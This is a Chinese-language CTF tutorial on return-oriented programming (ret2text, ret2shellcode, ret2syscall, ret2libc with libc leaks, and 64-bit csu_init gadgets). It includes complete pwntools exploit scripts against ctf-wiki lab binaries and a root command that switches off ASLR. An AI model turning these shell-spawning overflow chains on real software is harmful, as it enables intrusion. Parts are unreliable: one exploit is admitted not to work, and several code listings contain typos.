

# 1、基本ROP介绍

ROP全称为Return-oriented programming（返回导向编程），是一种高级的内存攻击技术，可以用来绕过现代操作系统的各种通用防御（比如内存不可执行和代码签名等）

> 常见ROP的类型有：ret2text、ret2shellcode、ret2syscall、ret2libc

---

## 1.1 ROP的必要性

NX（DEP）将数据所在内存页标识为不可执行，当程序溢出成功转入shellcode时，程序会尝试在数据页面上执行指令，此时CPU就会抛出异常，而不去执行恶意指令。随着 NX 保护的开启，以往直接向栈或者堆上直接注入代码的方式难以继续发挥效果，所以就有了各种绕过办法。

ROP在栈缓冲区溢出的基础上，利用程序中已有的小片段( gadgets )来改变某些寄存器或者变量的值，来控制程序的执行流程。**gadgets是以ret 结尾的指令序列**，通过这些指令序列，我们可以修改某些地址的内容，控制程序的执行流程。


ROP 攻击一般得满足如下条件

- 程序存在溢出，并且可以控制返回地址
- 可以找到满足条件的 gadgets 以及相应 gadgets 的地址。如果 gadgets 每次的地址是不固定的，那我们就需要想办法动态获取对应的地址了。

---

# 2、ret2text

> 附件下载：[ret2text](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/stackoverflow/ret2text/bamboofox-ret2text)

---

## 2.1 原理

return to text 即在程序本身中寻找危险函数如`system("/bin/sh")`、`execve("/bin/sh")`，再劫持返回地址到这些函数地址上，从而getshell

---

## 2.2 利用前提

开启NX（栈上不可执行），表示题目大概率包含危险函数，不需要自己构造shellcode

---

## 2.3 实例

下载下来文件，发现什么保护也没开启

```shell
$ checksec --file=ret2text
[*] '/home/kali/Desktop/ret2text'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```


拖入IDA反编译

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[100]; // [esp+1Ch] [ebp-64h] BYREF

  setvbuf(stdout, 0, 2, 0);
  setvbuf(_bss_start, 0, 1, 0);
  puts("There is something amazing here, do you know anything?");
  gets(s);
  printf("Maybe I will tell you next time !");
  return 0;
}
```


其中发现函数`secure()`中存在危险函数`system("/bin/sh")`

```c
void secure()
{
  unsigned int v0; // eax
  int input; // [esp+18h] [ebp-10h] BYREF
  int secretcode; // [esp+1Ch] [ebp-Ch]

  v0 = time(0);
  srand(v0);
  secretcode = rand();
  __isoc99_scanf(&unk_8048760, &input);
  if ( input == secretcode )
    system("/bin/sh");
}
```


查看汇编代码，定位system函数地址，接下来只要控制程序返回至`0x0804863A`，就可以getshell

```shell
.text:08048638                 jnz     short locret_8048646
.text:0804863A                 mov     dword ptr [esp], offset command ; "/bin/sh"
.text:08048641                 call    _system
```


用`cyclic 200`生成200长度的无序字符串，传入栈中判断溢出，先使用**peda-gdb**打开ret2text测算出栈偏移为112

```shell
$ gdb ret2text	# 打开ret2text

gdb-peda$ start	# 开始调试，中断在main函数

gdb-peda$ c		# 按c继续执行，接着将200位字符串输入
Invalid $PC address: 0x62616164	# 得到溢出字符，每两位数字转换为10进制，再对应ASCII得到字符为baad

$ cyclic -l 0x62616164	# 得到溢出字符前面位数112

```


最后EXP如下

```python
from pwn import *
p = process('./ret2text')
target = 0x804863a
p.sendline('A' * 112 + p32(target).decode('unicode_escape'))
p.interactive()
```

---

# 3、ret2shellcode

> 附件下载：[ret2shellcode](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/stackoverflow/ret2shellcode/ret2shellcode-example)

---

## 3.1 原理

ret2shellcode，即控制程序执行自己的shellcode，说明程序中没有危险函数，需要自己构造shellcode，还需要shellcode所在的区域运行时具有执行权限

---

## 3.2 利用前提

- 程序存在溢出，能够控制返回地址
- 程序运行时shellcode所在区域要有可执行权限（NX关闭，bss段可执行）
- 操作系统需要关闭ASLR（PIE）保护

---

## 3.3 实例

下载下来文件，发现什么保护也没开启

```shell
# pwn checksec --file=ret2shellcode
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```


拖入IDA反编译，可以看出基本的栈溢出漏洞

```c
nt __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[100]; // [esp+1Ch] [ebp-64h] BYREF

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("No system for you this time !!!");
  gets(s);
  strncpy(buf2, s, 0x64u);
  printf("bye bye ~");
  return 0;
}
```


不过本次还将对应的字符串复制到buf2处，查看可知buf2位于bss段

```shell
.bss:0804A080                 public buf2
.bss:0804A080 ; char buf2[100]
.bss:0804A080 buf2            db 64h dup(?)           ; DATA XREF: main+7B↑o
.bss:0804A080 _bss            ends
```


动态调试下，发现0x0804a000的bss段可执行

```shell
# gdb ret2shellcode

gdb-peda$ b main

gdb-peda$ run

gdb-peda$ vmmap
0x0804a000 0x0804b000 rwxp /desktop/ret2shellcode
```


用`cyclic 200`生成200长度的无序字符串，传入栈中判断溢出，先使用**peda-gdb**打开ret2shellcode测算出栈偏移为112，不再详细演示


最后EXP如下

```python
from pwn import *
sh = process('./ret2shellcode')
shellcode = asm(shellcraft.sh()) #生成并汇编shellcode
buf2_addr = 0x804a080

sh.sendline(shellcode.ljust(112, 'A') + p32(buf2_addr))
sh.interactive()
```

> 似乎由于kali linux 2019.2后面的版本中，bss段不再显示为rwxp，所以这个exp实际上有问题，留个坑，以后复现成功了再改

---

# 4、ret2syscall

> 附件下载：[ret2syscall](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/stackoverflow/ret2syscall/bamboofox-ret2syscall)

---

## 4.1 原理

系统调用是一种编程方式，程序向操作系统内核请求服务，系统提供了基本接口，我们需要做的是：让程序调用execve("/bin/sh",NULL,NULL)`来getshell

---

## 4.2 利用前提

存在栈溢出，该程序是32位，所以

- eax应为`0xb`（系统调用号）
- ebx应指向`/bin/sh`的地址
- ecx、edx应为0
- 最后再执行`int 0x80`触发中断即可执行`execve()`获取shell


我们可以通过pop和ret的组合来控制寄存器的值

```shell
pop eax	# 系统调用号载入，0xb为execve
pop ebx	# 第一个参数，/bin/sh的字符串
pop ecx	# 第二个参数，0
pop edx	# 第二个参数，0
```

---

## 4.3 实例

**检查保护**

32位程序，开启了NX保护，不能使用ret2shellcode

```shell
# pwn checksec --file=rop
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```


IDA反编译，没有发现system函数，无法使用ret2text

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4[100]; // [esp+1Ch] [ebp-64h] BYREF

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("This time, no system() and NO SHELLCODE!!!");
  puts("What do you plan to do?");
  gets(v4);
  return 0;
}
```


该系统是32位，我们可以通过gadgets来控制寄存器，使用到ROPgadget这个工具

**eax**

```shell
# ROPgadget --binary rop --only 'pop|ret' |grep 'eax'
0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x080bb196 : pop eax ; ret
0x0807217a : pop eax ; ret 0x80e
0x0804f704 : pop eax ; ret 3
0x0809ddd9 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret
```


**ebx**

```shell
# ROPgadget --binary rop --only 'pop|ret' |grep 'ebx'
0x0809dde2 : pop ds ; pop ebx ; pop esi ; pop edi ; ret
0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x0805b6ed : pop ebp ; pop ebx ; pop esi ; pop edi ; ret
0x0809e1d4 : pop ebx ; pop ebp ; pop esi ; pop edi ; ret
0x080be23f : pop ebx ; pop edi ; ret
```


**ecx**

```shell
# ROPgadget --binary rop --only 'pop|ret' |grep 'ecx'
0x0806eb91 : pop ecx ; pop ebx ; ret
0x0806eb90 : pop edx ; pop ecx ; pop ebx ; ret
```


**edx**

```shell
# ROPgadget --binary rop --only 'pop|ret' |grep 'edx'
0x0806eb69 : pop ebx ; pop edx ; ret
0x0806eb90 : pop edx ; pop ecx ; pop ebx ; ret
0x0806eb6a : pop edx ; ret
0x0806eb68 : pop esi ; pop ebx ; pop edx ; ret
```


**/bin/sh字符串**

```shell
# ROPgadget --binary rop --string '/bin/sh'          
Strings information
============================================================
0x080be408 : /bin/sh
```


**int 0x80**

```shell
# ROPgadget --binary rop --only 'int'                
Gadgets information
============================================================
0x08049421 : int 0x80
```


`cyclic 200`生成200长度无序字符串，传入栈中判断溢出，先使用**peda-gdb**打开ret2syscall

```shell
$ gdb ret2syscall	# 打开ret2syscall
gdb-peda$ start	# 开始调试，中断在main函数
gdb-peda$ c		# 按c继续执行，接着将200位字符串输入
Invalid $PC address: 0x62616164	# 得到溢出字符，每两位数字转换为10进制，再对应ASCII得到字符为baad
$ cyclic -l 0x62616164	# 得到溢出字符前面位数112
```


写好的EXP如下

```python
#!/usr/bin/env python
from pwn import *

sh = process('./rop')

pop_eax_ret = 0x080bb196
pop_edx_ecx_ebx_ret = 0x0806eb90
int_0x80 = 0x08049421
binsh = 0x80be408
payload = flat(
    ['A' * 112, pop_eax_ret, 0xb, pop_edx_ecx_ebx_ret, 0, 0, binsh, int_0x80])
sh.sendline(payload)
sh.interactive()
```

---

# 5、ret2libc

## 5.1 原理

函数调用在汇编中通过call指令实现，而函数返回通过ret指令实现，call指令可以实现多种方式的函数跳转，暂时只考虑地址在内存中的call指令实现

CPU在执行call指令时需要两步操作：

- 将函数返回地址入栈，即将call指令的下一条指令的地址入栈
- 跳转，即`jmp dword ptr 内存单元地址`

CPU在执行ret指令时只需要恢复IP寄存器即可，因此ret指令是call指令执行前的下一条指令地址赋值到IP

由于我们使用system函数地址替换了原来的IP寄存器，强制执行system函数，破坏了原来程序的栈帧分配和策略，所以后续的操作必须基于这个被破坏的栈帧结构实现


**filler是函数的返回地址**

filler是函数的返回地址，在system函数的汇编实现中，正常请开给你下我们通过call指令进行函数调用，因此进入到system函数之前，call指令已经将其返回地址push到栈帧中，所以正常情况下ret指令就是pop之前call指令push到栈帧的数据，二者成对。

但是在ret2libc时，直接通过覆盖IP地址跳转到system函数，并没有经过call调用，也没有push ip 操作，但是system函数照常进行了ret指令的pop ip操作，pop到ip的地址就是filler


**参数在filler后**

传递给system的参数紧跟在filler之后，是因为省用了call调用的push步骤，其他步骤与正常函数调用并无差别，如果filler看作返回地址，那么filler之后相对栈增长的方向的数据就变成system函数的参数了

---

## 5.2 利用前提

ret2libc针对动态链接编译的程序，正常情况下无法在系统中找到system()这种系统级函数，程序会调用libc.so，共享库libc.so中存在system()以及execve()，找到/bin/sh字符串，覆盖掉返回地址即可获得当前进程的控制权

开启DEP防护，关闭ASLR

---

## 5.3 实例1

观察源代码，发现在vulnerable_function()函数中，buf只有128字节但可以读入256字节，造成缓冲区溢出，使用`gcc ret2lib.c -fno-stack-protector -no-pie -m32 -o ret2lib`编译下面的程序

```c
#undef _FORTIFY_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
void vulnerable_function() {
	char buf[128];
	read(STDIN_FILENO, buf, 256);
}
int main(int argc, char** argv) {
	vulnerable_function();
	write(STDOUT_FILENO, "Hello, World\n", 13);
}
```


关闭ASLR

```shell
echo 0 > /proc/sys/kernel/randomize_va_space
```


动态链接的程序再运行时才会链接共享模块，用ldd模块查看共享模块

```shell
$ ldd ret2lib
        linux-gate.so.1 (0xf7f9c000)
        libc.so.6 => /lib32/libc.so.6 (0xf7d8f000)
        /lib/ld-linux.so.2 (0xf7f9e000)
```


寻找system()函数，找到的地址要加上基地址（ldd命令查到的libc.so.6基地址）

```shell
$ objdump -T /lib32/libc.so.6 | grep system
001379b0 g    DF .text  00000066 (GLIBC_2.0)  svcerr_systemerr
00044cc0 g    DF .text  00000037  GLIBC_PRIVATE __libc_system
00044cc0  w   DF .text  00000037  GLIBC_2.0   system
```


寻找/bin/sh字符串，找到的地址要加上基地址（ldd命令查到的libc.so.6基地址）

```shell
$ ROPgadget --binary /lib32/libc.so.6 --string '/bin/sh'
Strings information
============================================================
0x0018fb62 : /bin/sh
```


`cyclic 200`生成200长度无序字符串，传入栈中判断溢出，先使用**peda-gdb**打开ret2lib

```shell
$ gdb ret2lib	# 打开ret2lib
gdb-peda$ start	# 开始调试，中断在main函数
gdb-peda$ c		# 按c继续执行，接着将200位字符串输入
Invalid $PC address: 0x6261616b	# 得到溢出字符，每两位数字转换为10进制，再对应ASCII得到字符为baad
$ cyclic -l 0x6261616b	# 得到溢出字符前面位数140
```


**EXP**

```python
from pwn import *
#context.log_level = 'debug'
debug = 1
if debug:
	sh = process('./ret2lib')
system_addr = 0xf7e08870
binsh_addr  = 0xf7f47968
payload = flat(['a' * 140,system_addr,0xdeadbeef,binsh_addr])

def pwn(sh, payload):
	sh.sendline(payload)
	sh.interactive()
pwn(sh, payload)
```

---

## 5.4 实例2

> 下载实例：[ret2libc1](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/stackoverflow/ret2libc/ret2libc1)

不再赘述：checksec发现是32位，开启NX保护，扔进IDA发现容易栈溢出的gets函数，以及含有system()的secure()函数，测算栈长度112


**查找字符串/bin/sh**

```shell
$ ROPgadget --binary ret2libc1 --string '/bin/sh' 
Strings information
============================================================
0x08048720 : /bin/sh
```


IDA查看system()地址


**EXP**

正常调用system函数有一个对应的返回地址，这里以虚假地址bbbb提交，后面参数对应参数内容

```shell
#!/usr/bin/env python
from pwn import *

sh = process('./ret2libc1')

binsh_addr = 0x8048720
system_plt = 0x08048460
payload = flat(['a' * 112, system_plt, 'b' * 4, binsh_addr])
sh.sendline(payload)

sh.interactive()
```


## 5.5 实例3

检查文件保护，发现是32位程序，开启了NX

拖进IDA发现危险栈溢出函数gets，同时在secure函数中发现system函数

没找到/bin/sh，但是在bss段找到一些可以利用的空间，可以在这个空间中写入/bin/sh

使用cyclic测出栈偏移为112，利用工具查看是否有/bin/sh存在

```shell
ROPgadget --binary ret2libc1 --string '/bin/sh' 
```


首先使用112个A字符填充栈，使栈发生栈溢出，再用gets函数的plt地址来覆盖原返回地址，使程序流执行到gets函数，参数就是bss段的地址，目的是让gets函数将/bin/sh写入bss段中，接下来使用system函数覆盖gets函数的返回地址，使程序执行到system函数，参数是bss段中的内容


**EXP**

```python
from pwn import *
bss_addr = 0x0804A080
gets_plt = 0x08048460
sys_plt  = 0x08048490

io=process('./ret2libc2')
io.recvuntil('What do you think ?')
payload = flat(['A'*112,gets_plt,sys_plt,bss_addr,bss_addr])
io.sendline(payload)
io.sendline('/bin/sh')
io.interactive()
```


## 5.5 实例4

>  [文件下载](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/stackoverflow/ret2libc/ret2libc3)

---

用checksec检查文件保护，发现是32位程序，只开启了栈上不可执行（NX）

```bash
$ checksec --file=ret2libc3
[*] '/home/kali/Desktop/ret2libc3'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```


扔到IDA中进行反编译，并未发现system函数和/bin/sh字符串

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[100]; // [esp+1Ch] [ebp-64h] BYREF

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("No surprise anymore, system disappeard QQ.");
  printf("Can you find it !?");
  gets(s);
  return 0;1
}
```


在Kali Linux中用gdb-peda下断点配合Cyclic计算栈偏移为112

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ gdb ret2libc3
Reading symbols from ret2libc3...

gdb-peda$ r
Starting program: /home/kali/Desktop/ret2libc3 
No surprise anymore, system disappeard QQ.
Can you find it !?

aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x0 
EBX: 0x0 
ECX: 0xf7fa7580 --> 0xfbad2288 
EDX: 0xfbad2288 
ESI: 0x1 
EDI: 0x80484d0 (<_start>:       xor    ebp,ebp)
EBP: 0x62616163 ('caab')
ESP: 0xffffd140 ("eaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab")
EIP: 0x62616164 ('daab')
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x62616164
[------------------------------------stack-------------------------------------]
0028| 0xffffd15c ("laabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab")
[------------------------------------------------------------------------------]


gdb-peda$ quit
                                                                                                                                                           
┌──(kali㉿kali)-[~/Desktop]
└─$ cyclic -l 0x62616164
112
```


重要的几点：

- system函数属于libc，而libc.so动态链接库中的函数之间先后对唯一是固定的
- 即使开启了ASLR，只是针对地址中间位进行随机，最低的12位并不会发生变化
- 所以只要得到libc版本就可以知道system函数和/bin/sh的偏移量，再找到libc的基地址

> libc基地址 + 函数偏移量 = 函数真实地址


我们可以通过泄露一个函数的真实地址，然后得到libc的基zuowei地址；而泄露函数真实地址又用到了libc的延迟绑定技术：

- 第一次调用函数时，函数的got表存放下一条plt表的指令的地址，然后得到函数真实地址后，放到了函数的got表里
- 第二次调用函数时，got表里存放的就是函数的真实地址了
- 我们得到真实地址后，作为参数传入函数，就会把函数的真实地址输出出来


脚本如下：

```python
from pwn import *

p = process('./ret2libc3')
elf = ELF('./ret2libc3')

puts_got_addr = elf.got['puts']#得到puts的got的地址，这个地址里的数据即函数的真实地址，即我们要泄露的对象
puts_plt_addr = elf.plt['puts']#puts的plt表的地址，我们需要利用puts函数泄露
main_plt_addr = elf.symbols['_start']#返回地址被覆盖为main函数的地址。使程序还可被溢出

print ("puts_got_addr = ",hex(puts_got_addr))
print ("puts_plt_addr = ",hex(puts_plt_addr))
print ("main_plt_addr = ",hex(main_plt_addr))


payload=flat(['A'*112,puts_plt_addr,main_plt_addr,puts_got_addr])

p.recv()
p.sendline(payload)

puts_addr = u32(p.recv()[0:4]) #输出后用p32解包
print ("puts_addr = ",hex(puts_addr))
```


得到函数的真实地址，通过查询网站https://libc.blukat.me/得到使用的libc版本，也可以使用https://github.com/niklasb/libc-database这个项目


然后找到本机的libc所在的文件目录

```shell
$ sudo find / -name libc.so.6
/usr/lib/x86_64-linux-gnu/libc.so.6	#应该是编译elf文件时用到的
/usr/lib32/libc.so.6	# 应该是运行elf加载文件时用到的
```


找到这个文件，直接带不出来，通过压缩带出来查看十六进制


使用项目

```shell
$ git clone https://github.com/niklasb/libc-database.git

$ ./get   #安装或更新你的libc数据库

$ ./add /usr/lib/libc-2.21.so   #添加本地的libc文件到数据库

$ ./find printf 260 puts f30    #查找符合要求的libc数据库文件
archive-glibc (id libc6_2.19-10ubuntu2_i386)

$ ./find __libc_start_main_ret a83
ubuntu-trusty-i386-libc6 (id libc6_2.19-0ubuntu6.6_i386)
archive-eglibc (id libc6_2.19-0ubuntu6_i386)
ubuntu-utopic-i386-libc6 (id libc6_2.19-10ubuntu2.3_i386)
archive-glibc (id libc6_2.19-10ubuntu2_i386)
archive-glibc (id libc6_2.19-15ubuntu2_i386)

$ ./dump libc6_2.19-0ubuntu6.6_i386     #dumplibc文件的部分数据偏移信息
offset___libc_start_main_ret = 0x19a83
offset_system = 0x00040190
offset_dup2 = 0x000db590
offset_recv = 0x000ed2d0
offset_str_bin_sh = 0x160a24

$ ./identify /usr/lib/libc.so.6
id local-f706181f06104ef6c7008c066290ea47aa4a82c5

$ ./download libc6_2.23-0ubuntu10_amd64
Getting libc6_2.23-0ubuntu10_amd64
    -> Location: http://security.ubuntu.com/ubuntu/pool/main/g/glibc/libc6_2.23-0ubuntu10_amd64.deb
    -> Downloading package
    -> Extracting package
    -> Package saved to libs/libc6_2.23-0ubuntu10_amd64
$ ls libs/libc6_2.23-0ubuntu10_amd64
ld-2.23.so ... libc.so.6 ... libpthread.so.0 ...
```


上面是使用方法

```shell
$ ./add /usr/lib32/libc-2.28.so  #添加本地的libc文件
->wrting libc to db/local-a819.so
->wrting symbols to db/local-a819.symbols

$ ./dump local-a819		# 查看libc文件的部分信息
offset_libc_start_main_ret = 0x1ab41
```


然后整理下思路：

- 泄露puts函数的真实地址
- 得到libc的版本
- 得到system和puts和sh的偏移，计算出libc基地址
- 计算出system和sh的真实地址
- 构造payload为system('/bin/sh')
- 写exp

```python
from pwn import *

p = process('./ret2libc3')
elf = ELF('./ret2libc3')

puts_got_addr = elf.got['puts']
puts_plt_addr = elf.plt['puts']
main_plt_addr = elf.symbols['_start']

print "puts_got_addr = ",hex(puts_got_addr)
print "puts_plt_addr = ",hex(puts_plt_addr)
print "main_plt_addr = ",hex(main_plt_addr)

payload = ''
payload += 'A'*112
payload += p32(puts_plt_addr)
payload += p32(main_plt_addr)
payload += p32(puts_got_addr)

p.recv()
p.sendline(payload)

puts_addr = u32(p.recv()[0:4])
print ("puts_addr = ",hex(puts_addr))
sys_offset = 0x0003e980
puts_offset = 0x00068FD0
sh_offset = 0x00017eaaa

libc_base_addr = puts_addr - puts_offset 
sys_addr = libc_base_addr + sys_offset
sh_addr = libc_base_addr + sh_offset 

print ("libc_base_addr = ",hex(libc_base_addr))
print ("sys_addr = ",hex(sys_addr))
print ("sh_addr = ",hex(sh_addr))

payload =flat(['A'*112,sys_addr,"AAAA",sh_addr])


p.sendline(payload)
p.interactive()
```

---

# 6、ret2libc_csuinit

64位文件的传参方式：

- 当参数少于7个时，从左到右放入寄存器rdi、rsi、rdx、rcx、r8、r9
- 当参数为7个以上时，前面6个一样，后面的依次放入栈中，和32位程序一样

```shell
fan(a,b,c,d,e,f,g,h)
a->rdi,b->rsi,c->rdx,d->rcx,e->r8,f->r9
h->esp
g->esp
call fan
```


利用原理：64位程序中，函数前六个参数通过寄存器传递，但大多数时候很难找到每一个寄存器对应的gadgets，这时候可以利用x64下的_libc_csu_init中的gadagets。这个函数用来对libc进行初始化操作，而一般的程序都会调用libc，所以这个函数一定会存在

```c
int func(int arg1,int arg2,int arg3,int arg4,int arg5,int arg6,int arg7,int arg8){
    int loc1 = arg1 + 1;
    int loc8 = arg8 + 8;
    return loc1 + loc8;
}
int main(){
    return func(11,22,33,44,55,66,77,88);
}

//gcc -m32 stack.c -o stack
//gcc stack.c -o stack64
```




检查文件，64位程序开启了NX保护

```shell
# checksec --file=level5 
[*] '/home/kali/Desktop/level5'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

```


拖进IDA反汇编

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  write(1, "Hello, World\n", 0xDuLL);
  vulnerable_function(1LL);
  return 0;
}
```


发现一个read栈溢出函数

```c
ssize_t vulnerable_function()
{
  char buf[128]; // [rsp+0h] [rbp-80h] BYREF

  return read(0, buf, 0x200uLL);
}
```


使用cyclic测栈偏移，利用`x/wx $rsp`以十六进制查看rsp中的值

```shell
# gdb ./level5

gdb-peda$ r
                                 
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x0000000000400586 in vulnerable_function ()

gdb-peda$ x/wx $rsp
0x7fffffffe338: 0x6261616a

# cyclic -l 0x6261616a
136

```


没有system函数，但是可以利用write函数配合libc泄露出程序加载到内存后的地址，也可以使用_libc_start_main，首先找write在内存中的真实地址

```python
from pwn import *

p = process('./level5')
elf = ELF('level5')

pop_addr = 0x40061a          
write_got = elf.got['write']
mov_addr = 0x400600
main_addr = elf.symbols['main']

p.recvuntil('Hello, World\n')
payload0 = b'A'*136 + p64(pop_addr) + p64(0) + p64(1) + p64(write_got) + p64(8) + p64(write_got) + p64(1) + p64(mov_addr) + b'a'*(0x8+8*6) + p64(main_addr)
p.sendline(payload0)

write_start = u64(p.recv(8))
print("write_addr_in_memory_is "+hex(write_start))s
```


这里的payload0：`b'A'*136 + p64(pop_addr) + p64(0) + p64(1) + p64(write_got) + p64(8) + p64(write_got) + p64(1) + p64(mov_addr) + b'a'*(0x8+8*6) + p64(main_addr)`

- 首先输入136个字符A使程序发生栈溢出
- 然后让pop_addr覆盖栈中的返回地址，使程序返回执行pop_addr地址处的函数
- 然后将0，1，write_got函数地址，8，write_got，1分别pop到寄存器rbx，rbp，r12，r13，r14，r15中去
- 然后将pop函数的返回地址覆盖mov_addr的地址为如下：

```shell
.text:000000000040061A                 pop     rbx  //rbx->0
.text:000000000040061B                 pop     rbp  //rbp->1
.text:000000000040061C                 pop     r12  //r12->write_got函数地址
.text:000000000040061E                 pop     r13  //r13->8
.text:0000000000400620                 pop     r14  //r14->write_got函数地址
.text:0000000000400622                 pop     r15  //r15->1
.text:0000000000400624                 retn         //覆盖为mov_addr
```


之后程序转向mov_addr函数，利用mov指令布置寄存器rdx,rsi,edi

```shell
.text:0000000000400600                 mov     rdx, r13  //rdx==r13==8
.text:0000000000400603                 mov     rsi, r14  //rsi==r14==write_got函数地址
.text:0000000000400606                 mov     edi, r15d //edi==r15d==1
.text:0000000000400609                 call    qword ptr [r12+rbx*8] //call write_got函数地址 
.text:000000000040060D                 add     rbx, 1
.text:0000000000400611                 cmp     rbx, rbp //rbx==1,rbp==1
.text:0000000000400614                 jnz     short loc_400600
```
